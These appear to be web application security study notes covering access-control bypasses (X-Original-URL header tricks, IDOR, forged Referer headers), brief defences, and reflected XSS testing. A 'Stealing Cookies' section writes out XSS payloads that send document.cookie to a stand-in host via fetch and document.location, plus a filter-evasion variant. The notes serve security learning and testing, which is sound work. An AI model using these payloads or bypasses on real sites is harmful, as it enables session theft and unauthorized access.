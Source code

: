 #### Broken Access Control from Platform Misconfiguration

* A rule may be used like

  * `DENY: POST, /admin/deleteUser, managers`

* Headers such as `X-Original-URL` and `X-Rewrite-URL` can be used to bypass this:

  * ```
    POST / HTTP/1.1
    X-Original-URL: /admin/deleteUser
    ```

* Also perhaps other HTTP methods like `GET` or `POSTX` could be used to perform actions on a restricted URL instead.

### Horizontal Privilege Escalation

* This arises when a user can gain access to resources belonging to another user
* Commonly done through **IDOR** - Insecure Direct Object Reference
  * Changing an id parameter to view content for another id
  * Changing a sequentially numbered file name to download different content

### Referer-based Access Control

* `Referer` header is added to indicate the page from which a request was initiated.
* This can be forged and abused if a web app blindly trusts it.

### Defences

* Never rely on obfuscation alone, or security through obscurity
* Deny access to resources by default unless they're intended to be publicly accessible
* When possible, use a single application-wide mechanism for enforcing access controls (so there aren't weaknesses at select points)
* Audit and test access controls

## Cross-site Scripting (XSS)

* A vulnerability that allows an attack to compromise the interactions that users have with a vulnerable app.

### Reflected XSS

* Where the malicious script comes from the current HTTP request
* Tips to find and test for reflected XSS:
  * Test every point - query parameters, message body, URL file path, HTTP headers
  * Submit random alphanumeric values - used for tracing whether the value is reflected in the response. Use Burp Intruder's **grep payloads option**
  * Determine reflection context
  * Test in Burp Repeater and then in a browser.

#### Stealing Cookies

* Cookie will likely be kept in `document.cookie`
* We use `fetch` to send a cookie to our subdomain
  * `fetch('https://domain.com/?q=${document.cookie}')`
  * Or `fetch('https://domain.com', {method: 'POST', mode: 'no-cors', body:document.cookie})`
  * If `document.cookie` is filtered, you can try `window['document']['cookie']`
* Alternatively using `document.location` which runs when the page loads
  * `<script>document.location="https://domain.com/?c="+document.cookie</script>`
* Potential issues:
  * Victim isn't logged in
  * Cookies hidden from JS by using `HttpOnly` flag
  * Session might be locked due to things like IP
